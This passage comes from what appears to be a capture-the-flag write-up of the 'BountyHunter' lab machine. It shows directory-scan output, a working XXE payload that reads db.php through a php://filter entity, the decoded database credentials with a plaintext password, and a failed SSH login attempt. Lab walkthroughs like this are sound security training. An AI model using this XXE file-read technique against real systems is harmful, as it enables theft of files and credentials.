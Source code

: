 ```bash
/.htaccess.PHP        (Status: 403) [Size: 277]
/.htpasswd.PHP        (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 203]    <--- database configuration file
/index.php            (Status: 200) [Size: 25169]                                
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]    
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/server-status        (Status: 403) [Size: 277]                                     
                                                                                    
===============================================================
2021/11/20 04:00:29 Finished
===============================================================
```

Yes, we have it. Let's create a new payload by twweaking the old one to read the content of `db.php`

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bugreport [<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<bugreport>
<title>test</title>
<cwe>123</cwe>
<cvss>1337</cvss>
<reward>&file;</reward>
</bugreport>
```

Encode the payload and sent it the server, we get base64 encoded `db.php` as response.

## Gaining Foothold

Let's decode the base64 encoded `db.php`

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We have the possible username and password, let's try to use this credentials to login using SSH.

```bash
┌─[eu-free-3]─[10.10.14.208]─[vincida@vincida]─[~/Desktop/HTB/LAB/bountyhunter]
└──╼ [★]$ ssh admin@10.10.11.100
The authenticity of host '10.10.11.100 (10.10.11.100)' can't be established.
ECDSA key fingerprint is SHA256:3IaCMSdNq0Q9iu+vTawqvIf84OO0+RYNnsDxDBZI04Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.100' (ECDSA) to the list of known hosts.
admin@10.10.11.100's password: 
Permission denied, please try again.
admin@10.10.11.100's password: 
Permission denied, please try again.
admin@10.10.11.100's password: 
admin@10.10.11.100: Permission denied (publickey,password).
```
